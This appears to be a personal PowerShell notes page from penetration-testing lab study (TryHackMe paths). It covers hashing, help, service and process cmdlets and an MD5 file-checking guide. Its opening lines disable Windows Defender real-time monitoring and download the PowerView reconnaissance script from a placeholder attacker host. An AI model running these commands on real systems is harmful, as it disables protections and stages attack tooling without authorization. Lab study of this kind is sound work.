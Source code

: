 ### 25-Jan-24-Thu

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

```
Invoke-WebRequest http://<ip>:<port>/PowerView.ps1 -OutFile PowerView.ps1
```

```
Get-FileHash somefile.ext
```

```
Get-FileHash somfile.ext -Algorithm MD5
```

```
$psversiontable
```

![image](https://github.com/user-attachments/assets/20e96730-c065-4775-b430-3bc1c80f5979)

```
Get-Help Get-Help
```

![image](https://github.com/user-attachments/assets/7aabfd9f-168e-434d-80d5-d9ee4937fbb3)

```
Get-Help -Name Get-Command -Detailed
```

![image](https://github.com/user-attachments/assets/bba5f21b-42d0-42c2-8ae9-da9146982a39)

```
alias
```

![image](https://github.com/user-attachments/assets/64d4d22c-35ec-4ace-bae2-46925963d014)

```
Get-Process
```

```
Stop-Process -id 12345
```

```
Get-Service |Select-Object Status,Name
```

```
Get-Service | Where-Object Status -eq "Running"
```

```
Get-Service | Where-Object Status -ne "Running"
```

```
 Test-NetConnection google.com
```

![image](https://github.com/user-attachments/assets/36f3e110-51b2-4fbc-b389-3a420a4d6bc1)

```
Test-NetConnection 172.19.4.223 -Port 1514
```

<img width="361" alt="image" src="https://github.com/user-attachments/assets/5c3b31ac-e329-400a-bfa5-bf83a319f738" />

```
Start-Process -Verb RunAs -FilePath "powershell"
```

```
Start-Process -Verb RunAs -FilePath "cmd"
```

# PowerShell Command for MD5 Hash Checking of Files

Here are several ways to check MD5 hashes of files in PowerShell:

## 1. Using Get-FileHash cmdlet (PowerShell 4.0 and later)

```powershell
Get-FileHash -Algorithm MD5 -Path "C:\path\to\your\file.ext"
```

For multiple files:
```powershell
Get-FileHash -Algorithm MD5 -Path (Get-ChildItem "C:\path\to\files\*.*")
```

## 2. Comparing two files' hashes

```powershell
$hash1 = (Get-FileHash -Algorithm MD5 -Path "C:\file1.ext").Hash
$hash2 = (Get-FileHash -Algorithm MD5 -Path "C:\file2.ext").Hash
$hash1 -eq $hash2  # Returns True if hashes match
```

## 3. Verifying against a known hash

```powershell
$fileHash = (Get-FileHash -Algorithm MD5 -Path "C:\file.ext").Hash
$knownHash = "D41D8CD98F00B204E9800998ECF8427E"  # Replace with your known hash
$fileHash -eq $knownHash  # Returns True if matches
```

## 4. Creating a function for quick MD5 checking

```powershell
function Get-MD5Hash {
    param(
        [Parameter(Mandatory=$true)]
        [string]$FilePath
    )
    Get-FileHash -Algorithm MD5 -Path $FilePath | Select-Object Algorithm, Hash, Path
}
```

Usage:
```powershell
Get-MD5Hash "C:\path\to\file.ext"
```

## Notes:
- The `Get-FileHash` cmdlet is available in PowerShell 4.0 and later
- For older PowerShell versions, you would need to use .NET methods
- MD5 is considered cryptographically broken - consider using SHA256 or SHA512 for security-sensitive applications

```
$directory = "C:\Users\kamkh\Documents\THM\PT1\keys-1627343109071\keys\"
$knownHash = "3166226048d6ad776370dc105d40d9f8"  # Replace with your known hash

# Get all files in directory and check each one
Get-ChildItem -Path $directory -File | ForEach-Object {
    $fileHash = (Get-FileHash -Algorithm MD5 -Path $_.FullName).Hash
    if ($fileHash -eq $knownHash) {
        Write-Host "Match found: $($_.Name)" -ForegroundColor Green
        # If you want full path instead of just filename, use $_.FullName
    }
}
```

<img width="1918" height="1022" alt="image" src="https://github.com/user-attachments/assets/72d06b5e-33c6-4eb4-860a-a6567bafaab9" />
